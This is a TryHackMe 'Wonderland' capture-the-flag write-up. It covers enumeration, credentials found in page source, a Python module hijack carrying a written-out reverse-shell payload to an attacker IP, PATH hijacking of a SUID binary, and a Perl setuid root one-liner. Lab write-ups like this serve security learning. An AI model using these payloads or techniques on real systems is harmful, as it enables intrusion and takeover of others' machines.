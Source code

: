 ```yaml
---
title: Wonderland
date: 2022-07-23 12:00:00 -0500
author: L15t3Nr
categories:
  - TryHackMe
  - WriteUp
tags:
  - TryHackMe
  - WriteUp
  - Wonderland
img_path: /assets/img/Wonderland/
permalink: /posts/Wonderland/
layout: post
---
```


Wonderland can be found [here](https://tryhackme.com/room/wonderland)

![Wonderland](/assets/img/Wonderland/Wonderland.jpeg)

# Enumeration
## Nmap
The results of nmap
```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDe20sKMgKSMTnyRTmZhXPxn+xLggGUemXZLJDkaGAkZSMgwM3taNTc8OaEku7BvbOkqoIya4ZI8vLuNdMnESFfB22kMWfkoB0zKCSWzaiOjvdMBw559UkLCZ3bgwDY2RudNYq5YEwtqQMFgeRCC1/rO4h4Hl0YjLJufYOoIbK0EPaClcDPYjp+E1xpbn3kqKMhyWDvfZ2ltU1Et2MkhmtJ6TH2HA+eFdyMEQ5SqX6aASSXM7OoUHwJJmptyr2aNeUXiytv7uwWHkIqk3vVrZBXsyjW4ebxC3v0/Oqd73UWd5epuNbYbBNls06YZDVI8wyZ0eYGKwjtogg5+h82rnWN
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHH2gIouNdIhId0iND9UFQByJZcff2CXQ5Esgx1L96L50cYaArAW3A3YP3VDg4tePrpavcPJC2IDonroSEeGj6M=
|   256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAsWAdr9g04J7Q8aeiWYg03WjPqGVS6aNf/LF+/hMyKh
80/tcp open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Manual Inspection 
The home page contains only an image

![Home](/assets/img/Wonderland/Home.png)

## Fuzzing for Directories
Using Wfuzz, I enumerate directories
```
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-large-directories.txt --follow --hc 404 http://10.10.241.146/FUZZ/
```

One of the first results comes back as the '/r/' directory.

![r](/assets/img/Wonderland/r.png)

I had a feeling this was going to spell out the word 'rabbit', so I checked. 

![rabbitPage](/assets/img/Wonderland/rabbitPage.png)

There is a page here and checking the source reveals something interesting. 

There are credentials hidden in the page source. 

![sourceCredentials](/assets/img/Wonderland/sourceCredentials.png)

# Lateral Movement
### Alice

The credentials i found grant SSH access as the user 'alice'.

![SSHAlice](/assets/img/Wonderland/SSHAlice.png)

Digging into the users permissions reveals the ability to execute a python script as the user 'rabbit'

`sudo -l`
![sudo-l](/assets/img/Wonderland/sudo-l.png)


### Rabbit
The python script uses the 'random' module and this can exploited by abusing the way python looks up library modules. The first location python checks is the current directory. The random module is located at `/usr/lib/python3.6/random.py`. By placing a malicious file name 'random.py' in the current directory, python will find and use my module before it reaches the `	/usr/lib/python3.6/random.py` location. 

The payload I will use: 
```
import socket,os,pty  
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  
s.connect(("10.2.7.45",4242))  
os.dup2(s.fileno(),0)  
os.dup2(s.fileno(),1)  
os.dup2(s.fileno(),2)  
pty.spawn("/bin/sh")
```

and this will be stored in a file called 'random.py' in the directory containing the 'walrus_and_the_carpenter.py' script. 

Setting up a netcat listener on 4242 and then executing the script as the user rabbit will provide a reverse shell as the next user. 

`sudo -u rabbit python3.6 ~/walrus_and_the_carpenter.py`

![randomPY](/assets/img/Wonderland/randomPY.png)

![rabbitShell](/assets/img/Wonderland/rabbitShell.png)

### Hatter

The rabbit user contains a binary called 'teaParty' and their is a SUID set on the binary.

![SUID](/assets/img/Wonderland/SUID2.png)

I downloaded a strings static binary onto the target and inspected the strings in the binary.

![teaParty](/assets/img/Wonderland/teaParty.png)

This revealed that the binary uses the 'date' command without an absolute path. This way I can hijack the command with my own by added a malicious 'date' binary to the tmp directory and including the tmp directory in the path. 

![stringsResults](/assets/img/Wonderland/stringsResults.png)

the malicious date binary will contain a reverse shell payload and then be made executable

![newDate](/assets/img/Wonderland/newDate.png)

The tmp directory is also added to the path

![PATH](/assets/img/Wonderland/PATH.png)

A netcat listener is started on port 2345 and then the binary is executed for a reverse shell as the user Hatter

![TeaPartyExec](/assets/img/Wonderland/TeaPartyExec.png)

![HatterShell](/assets/img/Wonderland/HatterShell.png)

# Privilege Escalation
### Root
User hatter contains a password file in the home directory that I will use to login via SSH

![HatterPassword](/assets/img/Wonderland/HatterPassword.png)

![HatterSSH](/assets/img/Wonderland/HatterSSH.png)

I ran through the [Privilege Escalation Checklist](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md) and found that the hatter user has capabilities set on Perl. 

![GetCap](/assets/img/Wonderland/GetCap.png)

There is a privilege escalation path found on [GTFO bins](https://gtfobins.github.io/gtfobins/perl/)

The payload: 
```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

![root](/assets/img/Wonderland/rootWonderland.png)
